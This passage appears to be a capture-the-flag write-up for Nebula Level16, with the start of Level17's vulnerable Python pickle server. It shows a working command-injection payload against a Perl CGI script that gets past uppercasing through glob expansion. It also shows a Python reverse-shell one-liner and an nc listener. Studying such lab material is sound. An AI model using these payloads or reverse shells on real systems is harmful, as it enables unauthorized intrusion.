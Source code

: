 Clearly, there is RCE vulnerability (line 14), we can check it creating an arbitrary file:
{% codeblock %}
sh-4.2$ wget -q -O /dev/null "http://192.168.80.136:1616/index.cgi?username=%24(>abcd)&password=x" 

sh-4.2$ ls -l /home/flag16/ABCD 
-rw-rw-r-- 1 flag16 flag16 0 2015-06-21 00:16 /home/flag16/ABCD
{% endcodeblock %}

Only problem is that input is uppercased and everything after whitespace character is stripped:
{% codeblock lang:perl %}
$username =~ tr/a-z/A-Z/; # conver to uppercase
$username =~ s/\s.*//;    # strip everything after a space

{% endcodeblock %}

We tried several other methods without success. In the later case, the shell runs, but we cannot do anything useful:
{% codeblock %}
http://192.168.80.136:1616/index.cgi?username=$(CMD=YES;${CMD~~})&password
http://192.168.80.136:1616/index.cgi?username=$($SHELL)&password
{% endcodeblock %}

Our solution was to create uppercased file in /tmp/ and use * expansion, telling bash to find the correct directory.

{% codeblock %}
sh-4.2$ cat SH 
python -c "import sys,socket,os,pty; _,ip,port=sys.argv; s=socket.socket(); s.connect((ip,int(port))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn('/bin/bash')" nebula 1337

sh-4.2$ chmod +x SH 

sh-4.2$ nc -l 1337

# http://192.168.80.136:1616/index.cgi?username=$(/*/SH)
sh-4.2$ wget -q -O /dev/null "http://192.168.80.136:1616/index.cgi?username=%24(/%2A/SH)

flag16@nebula:/home/flag16$ getflag
getflag
You have successfully executed getflag on a target account
{% endcodeblock %}

## Level17
{% codeblock lang:py level17.py %}
#!/usr/bin/python

import os
import pickle
import time
import socket
import signal

signal.signal(signal.SIGCHLD, signal.SIG_IGN)

def server(skt):
  line = skt.recv(1024)
